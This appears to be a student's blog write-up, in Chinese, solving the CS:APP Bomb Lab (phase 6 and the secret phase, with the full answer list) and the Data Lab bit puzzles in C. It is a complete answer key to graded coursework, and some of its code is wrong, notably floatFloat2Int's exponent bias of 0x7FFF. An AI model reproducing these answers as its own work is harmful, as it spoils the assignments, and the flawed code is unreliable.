```assembly
sub     eax, 1
cmp     eax, 5
jbe     short loc_401128
```

jbe是用于无符号整数的跳转，故实际上eax需满足$1 \le eax \le 6$.

第二部分对读入的数进行一些判断，其代码的结构如下。



观察上面代码的结构，发现是一个典型的两层循环，根据jnz -> explose_bomb，容易判断这段的目的是检查六个数是否两两不等。这样，结合第一个部分的条件，可知读入的六个整数应该恰好是1、2、3、4、5、6这六个数。

第三部分，代码结构如下，



这一段做的事大概是，（设读入的六个数为input_array）

```python
input_array = [(7 - x) for x in input_array]
```

第四部分，在栈中建立一个指针数组，数组内依次存下与数字对应的节点指针。如若input_array中的数为3，则在指针数组中对应的位置存node3的地址。

第五部分，在第四步建立的指针数组中依次扫描，判断每个节点的data是否是单调递增。即：

````c
node_array[0]->data < node_array[1]->data;
// --snippet--
node_array[5]->data < node_array[6]->data;
````

由上，就得出了六个节点需满足的条件，再观察内存中这六个节点的data大小，即可知道答案如下。

**答案**：`4 3 2 1 6 5`

总之，先来个通关纪念



这样，这个实验就完成了......

但出题者告诉我们似乎没有那么简单，

>  /* Wow, they got it!  But isn't something... missing?  Perhaps something they overlooked?  Mua ha ha ha ha! */

**To Be Continued...**

### Secret phase

执行以下命令，发现了一些有意思的东西，

```shell
unix > strings bomb 
```


在ida pro中找到相关字符串，发现隐藏关卡藏在了`phase_defused`中。进一步观察隐藏关卡的触发条件，发现当读入6条字符串（即已经通过了前六关后），它会再一次用到phase4中读入的字符串。如下图所示，


回忆一下，phase4是读入两个整数。若phase4中输入两个整数之外还输入一个字符串，并且该字符串和**暗号**一致，即进入了隐藏关卡。观察汇编，发现暗号是`DrEvil`。因此将phase4的答案修改为`7 0 DrEvil`。


#### How to Solve it

既然找到了隐藏关卡，接下来就是如何打通了。

首先此题读入了一个字符串，然后使用`strtol`将其转化为`long long`。需满足的第一个条件是`input_number - 1 <= 3E8`。第二个条件是`func7(&n1, input_number) == 2`。如下所示。

```assembly
mov     esi, ebx
mov     edi, offset n1
call    fun7
cmp     eax, 2
jz      short loc_401282
```

接下来仔细审核func7，其结构如下所示，是一个复杂的递归函数。


发现func7有三种返回的方式：

1. `rdi == nullptr`。显然不用考虑此种情况。
2. `[rdi] == input_number`。此时返回0.
3. `[rdi] < input_number`。此时返回2 * func7 + 1。
4. `[rdi] > input_number`。此时返回2 * func7。

发现，要凑出2，需要(0 * 2 + 1) * 2 = 2。则递归的过程如下：

1. `[n1] > input_number`。其中`[n1]`为0x24。
2. `[[n1 + 8]] < input_number`。其中`[[n1 + 8]]`为8。
3. `[[n1 + 8] + 16] == input_number`。其中[[n1 + 8] + 16]为22。

则只需要满足`input_number == 22`即可。Secret phase整体并不难，只不过要留意出题者的提示知道还有隐藏关卡 : )

**答案**：`22`

### Conclusion

故全部的答案为

```
Border relations with Canada have never been better.
1 2 4 8 16 32
0 207
7 0 DrEvil
ionufg
4 3 2 1 6 5
22
```

接下来留一张真正的通关纪念，


## DataLab

### Results

**Dev Env**：WSL Ubuntu 18.04

结果如下


### Implementations

#### bitXor

由简单的布尔代数知识可知，$x \oplus y = x \cdot \neg y + \neg x \cdot y $.

由于不能使用位或，进一步转化得$\neg(\neg(\neg x \cdot y) \cdot \neg(x \cdot \neg y))$

```c
 int bitXor(int x, int y) {                     
     return ~(~(x & ~y ) & ~(~x & y));            
 }                                              
```

#### tmin

最小的32位补码数是1 << 31

```c
int tmin(void) {              
    return 1 << 31;           
}                    
```

#### isTmax

最大的32位补码数是1 << 31 - 1，判断两个数是否相等可以用xor。只有当两个数完全相等时，$x \oplus y = 0$

```c
int isTmax(int x) {
    /* means x == max */
  
    int max = ~(1 << 31);
    return !(x ^ max);
}
```

#### allOldBits

通过`0xAA << 24 | 0xAA << 16 | 0xAA << 8 | 0xAA`很容易的可以构造出一个奇数位都为1，偶数位都为0的数。之后，将待判定数和此数进行位与，即可将带判定数的偶数位置为0，再判断此两数是否相等即可。

```c
int allOddBits(int x) {
    int all_odd = 0xAA << 24 | 0xAA << 16 | 0xAA << 8 | 0xAA;
    return !(all_odd ^ (all_odd & x));
}  
```

#### negate

这个直接由简单的布尔代数就可以得到。

```c
int negate(int x) {
    return ~x + 1;
}
```

#### isAsciiDigit

这里我使用最简单的思路，即判定x是否在最小数和最大数之间，即`x - min >= 0 && x - max <= 0`。实现中只需要注意一下返回值必须是0或1。

值得一题的是，这里在相减的过程中由于x太大或太小发生溢出不会对结果产生影响。

```c
int isAsciiDigit(int x) {                                  
    int min = 0x2F;                                          
    int max = 0x39;                                          
    int neg_x = ~x + 1;                                      
    // overflow doesn't matter                               
    return ((neg_x + min) >> 31) & !((max + neg_x) >> 31);   
}                                                          
```

#### conditional

首先构造一个值`mask`，它在`x`为0时各位皆为0，在`x`为1时各位皆为1。这个数还是很好构造的。

1. 将`x` bool化，即`x = !!x` ,使x不是0就是1.
2. `mask = ~x + 1`。这样，若x是0，mask是0，若x是1，mask是1111.....111111.
3. 这样，最后的结果就是`(y & mask) | (z & ~mask)`

```c
int conditional(int x, int y, int z) {              
    int bool_x = !!x;                                 
    int mask = ~bool_x + 1;                           
    return (y & mask) | (z & ~mask);                  
}                                                   
```

#### isLessOrEqual

这题的思路非常简单，通过判定`y - x >= 0`即可。但需要注意溢出的问题，所以代码较为繁杂。

```c
int isLessOrEqual(int x, int y) {                                                       
    int neg_x = ~x + 1;
    int mask = 1 << 31;
    int x_is_neg = x >> 31;
    int y_is_neg = y >> 31;                                                                                                                                            
    return ((!((neg_x + y) & mask)) | (x_is_neg & !y_is_neg)) & (!(y_is_neg & !x_is_neg));
}                                                                                       
```

#### logicalNeg

这题我的基本思路是将-x和x进行xor。这样，只有x是零，最高位才是0.

然而，上述只是理论上的，存在一个特殊值`int32.min` ，在取负时会发生溢出，需要单独处理这个例外。

```c
int logicalNeg(int x) {
    int neg_xor_x = (~x + 1) ^ x;
    return ((~neg_xor_x >> 31) & 1) & (~x >> 31);
}  
```

这里我通过并上一个`(~x >> 31)`来处理例外。这样若x为负，一定会返回0.

#### howManyBits

这题相对较难，经过思考最适合的方法是二分法，即判断该数是否需要用16、8、4、2、1位表示，在结果中加上这些位数。代码如下所示，

```c
int howManyBits(int x) {
    /* binary search */
    int sign = x >> 31;

    int abs_x = (x & ~sign) | (~x & sign); // in fact, abs_x is not abs of x

    // 16 bits required to represent x?
    int bit16 = !!(abs_x >> 16); //boolize
    bit16 = bit16 << 4;
    abs_x = abs_x >> bit16;

    int bit8 = !!(abs_x >> 8) << 3;
    abs_x = abs_x >> bit8;

    int bit4 = !!(abs_x >> 4) << 2;
    abs_x = abs_x >> bit4;

    int bit2 = !!(abs_x >> 2) << 1;
    abs_x = abs_x >> bit2;

    int bit1 = !!(abs_x >> 1);
    abs_x = abs_x >> bit1;

    int bit0 = !!abs_x;

    return bit16 + bit8 + bit4 + bit2 + bit1 + bit0 + 1;

}
```

这里，abs_x指的是和表示x所需位数相同的正数。

#### floatScale2

此题需要分情况讨论

- 当指数部分位255时，说明次数为NaN，不需要经过任何处理。
- 当指数在正常范围内时，直接将expo+1
- 若指数为0，此数有可能是一个非正规数。此时又有两种情况
  - fraction < (1 << 22): 此时直接将fraction左移一位即可
  - fraction >= (1 << 22):  此时fraction需左移一位，指数也需加1

```c
unsigned floatScale2(unsigned uf) {
    unsigned expo_mask = 0xFF << 23;
    unsigned expo = uf & expo_mask;
    unsigned frac_mask = 0x7FFFFF;
    unsigned frac = uf & frac_mask;
    if (expo == expo_mask) {
  
    }
    else if (expo == 0) {
        if (frac >> 22) {
            expo = 1 << 23;
        }
        frac = frac << 1;
    }
    else {
        expo = expo + (1 << 23);
    }
  
    uf = (uf & ~expo_mask) | expo;
    uf = (uf & ~frac_mask) | (frac & frac_mask);
    return uf;
}
```

#### floatFloat2Int	

此题思路很简单，只不过分情况讨论较为繁琐。

首先记录下符号为，之后分为三种情况：

- 数太小时，即expo <= 126，直接取0即可。
- 如果数太大，即expo > 157，直接取0x80000000即可。
- 否则，通过对`frac`进行一味计算round后的int值。

```c
int floatFloat2Int(unsigned uf) {
    int sign = uf & (1 << 31);
    int expo = (uf >> 23) & (0xFF);
    int frac = uf & 0x7FFFFF;
    int res;
    if (expo <= 126)
        res = 0;
    else if (expo > 157)
        res = 0x80000000;  
    else {
        expo = expo - 0x7FFF;
        res = 1 << expo;
        if (expo >= 23)
            frac = frac << (expo - 23);
        else
            frac = frac >> (23 - expo);
        res = res + frac;
        if (sign)
            res = -res;
    }
    return res;
}  
```

#### floatPower2

此题同样思路十分简单，只需通过x的大小计算expo和frac的值，主要的计算操作是移位。下面是代码，通过代码可以很明显的读清楚有哪些情况即各个情况的处理方法。

```c
unsigned floatPower2(int x) {
    int expo, frac;
    if (x > 127) {
        expo = 255;
        frac = 0;
    }
    else if (x <= 127 && x > -127) {
        expo = 127 + x;
        frac = 0;
    }
    else if (x <= -127 && x > -150) {
        expo = 0;
        frac = 1 << (x + 149);
    }
    else {
        expo = 0;
        frac = 0;
    }
    return frac + (expo << 23);
}  
```

